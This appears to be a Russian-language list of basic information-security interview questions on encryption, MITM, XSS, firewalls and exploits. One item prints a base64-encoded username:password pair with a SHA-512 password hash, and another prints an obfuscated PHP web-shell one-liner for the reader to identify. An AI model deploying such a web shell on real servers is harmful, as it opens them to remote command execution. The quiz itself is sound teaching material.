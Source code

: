 Базовые вопросы по информационной безопасности
==============================================
1. Что это и где это можно увидеть?
~~~~~~~~~~~
RnJlZDpwNDU1MTIzNA==
$6$8BxedHgytw0E6oTe$khJsZIJUZmiPpFpbDaJBhJrEp1DFyUDDrhkvuIHzb6sPPKiHrjBdINZe3sSb/y0wOpY4NICyGd5tXHhX3E.Z70
~~~~~~~~~~~
2. Назовите пять способов подсоединиться к TCP портам 80 или 443.
3. Какова принципиальная разница между симметричным и асимметричным шифрованием?
4. Возможно ли перехватить, просмотреть или модифицировать HTTPS трафик?
5. Что такое MITM атака?
6. Каковы возможные последствия атаки Cross-Site Scripting?
7. Что здесь неправильно?
~~~~~~~~~~~
select * from *;
~~~~~~~~~~~
8. Что это такое?
~~~~~~~~~~~
<?$_="";$_[+""]='';$_="$_"."";$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
~~~~~~~~~~~
9. Какова разница между эксплоитом и шеллкодом?
10. Какова разница между шифрованием файлов и Full Disk Encryption?
11. Какой принцип должен быть реализован в завершение цепочки правил межсетевого экрана?
12. Какие принципы защищенной архитектуры вы знаете?
13. Напишите скрипт на shell, выполнив которы на любой Linux-машине можно пручить список активных хостов в присоединенной сети класса C.
